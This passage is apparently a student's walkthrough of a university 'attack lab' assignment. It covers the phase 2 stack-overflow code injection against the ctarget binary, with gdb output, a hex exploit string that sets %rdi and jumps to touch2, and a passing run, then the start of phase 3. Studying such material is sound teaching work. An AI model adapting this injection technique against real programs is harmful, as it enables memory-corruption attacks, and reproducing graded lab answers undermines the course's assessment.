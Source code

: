 This will call the function to input a string, which you can then use to check what `%rsp` returns.

```
(gdb) x/s $rsp
0x5565c750:     "jfieowafjaidofjasdiofndasifeawjvewiojviwaeojvaw" /* the string I typed */
```

The address `0x5565c750` is what we want so we can inject our cookie into that memory address.

Now create a file calledd `ctarget.l2.txt` and put your cookie, padding of 40 bytes, address of `%rsp`, and address of `touch2` function in that order but order the bytes in reverse.

```
48 c7 c7 bd ef 39 2a c3 /* cookie */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00
50 c7 65 55 00 00 00 00 /* address of %rsp */
b1 25 40 00 00 00 00 00 /* touch2 funciton location */
```

Run it
```
cat ctarget.l2.txt | ./hex2raw | ./ctarget
```

The following output should yield

```
Cookie: 0x2a39efbd
Type string:Touch2!: You called touch2(0x2a39efbd)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

---

### phase 3

This level is similar to that of the previous one, but instead of passing in the hex value of our cookie, we need to pass in the string version. To do so, we need to convert our hex number `0x2a39efbd` into an ASCII equivalent for each of the numbers without the preceeding `0x` which looks like:

```
32 61 33 39 65 66 62 64
```

The next step is to set the register %rdi to this address. The included manual to this lab states that we have to be careful with the function `hexmatch` and `strncmp`, so we have to be careful with where we store it.

If we store it after touch3, we can avoid this problem because `hexmatch` is called in the function touch3.

Since the functions `hexmatch` and `strncmp` overwite part of the stack, we need to adjust the total amount of bytes right before the cookie.
